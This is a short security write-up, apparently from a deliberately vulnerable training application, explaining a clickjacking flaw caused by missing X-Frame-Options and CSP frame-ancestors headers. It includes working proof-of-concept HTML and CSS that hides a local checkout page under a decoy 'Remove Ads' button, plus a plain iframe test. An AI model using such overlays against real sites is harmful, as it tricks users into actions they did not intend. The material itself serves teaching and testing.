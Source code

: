# Clickjacking
This attack tricks users into clicking on a button, link, or other interactable on an attacker controlled/compromised website that performs an unintendded action on an authenticated and/or trusted site.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _Entire Application_

Clickjacking is present since the X-Frame-Options / Content-Security-Policy: frame-ancestors directive are both not properly implemented on the application.  For realistic exploitation a more intricately designed website meant to scam vulnerablecandle authenticated users, such an attack would abuse the z-index CSS property like this example HTML:

    # HTML
    <button style="z-index: 2; position: absolute; margin-left: 100px; margin-top: 30px;" class="button"> Remove Ads</button>
    <div style="overflow: hidden; margin: 15px auto; max-width: 50px;">
        <iframe scrolling="no" src="http://localhost:4200/checkout" style="z-index: 1; position: absolute; border: 0px none; margin-left: -650px; height: 200px; margin-top: -100px; width: 200px;"></iframe>
    </div>

    # CSS
    .button {
    background-color: #4CAF50;
    border: none;
    color: white;
    padding: 32px 32px;
    text-align: center;
    text-decoration: none;
    display: block;
    font-size: 16px;
    margin: 4px 2px;
    cursor: pointer;
    }

For the sake of simplcity the recommended way to test for Clickjacking is simply testing an iframe like below:

    <html>
        <body>
            <iframe src="http://localhost:4200/checkout" style="width: 100%; height: 1000px;"></iframe>
        </body>
    </html>
    
Successful exploitation looks like:
![Alt text](../images/clickjack.png?raw=true "Clickjacking Exploitation")
